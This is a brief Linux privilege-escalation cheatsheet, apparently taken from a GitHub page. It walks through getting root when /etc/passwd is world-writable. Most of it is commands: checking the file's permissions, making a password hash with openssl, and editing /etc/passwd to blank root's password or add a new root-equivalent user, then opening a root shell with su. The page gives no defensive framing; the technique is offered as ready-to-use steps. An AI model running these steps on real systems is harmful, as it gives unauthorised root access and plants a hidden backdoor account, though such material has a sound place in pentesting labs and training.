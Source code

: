 ## /etc/passwd Privilege Escalation Cheatsheet

**Precondition:**

- `/etc/passwd` is **world-writable**

### 1. Check permissions

```bash
ls -l /etc/passwd
```

### 2. Generate password hash

```bash
openssl passwd -1 newpasswordhere
```

### 3. Edit `/etc/passwd`

Option A – replace root’s password hash:

```
root::0:0:root:/root:/bin/bash
```

Option B – add a new root-equivalent user:

```
newroot:<HASH>:0:0:root:/root:/bin/bash
```

### 4. Get root shell

```bash
su root
# or
su newroot
```

### 5. Cleanup

```bash
exit
```

---
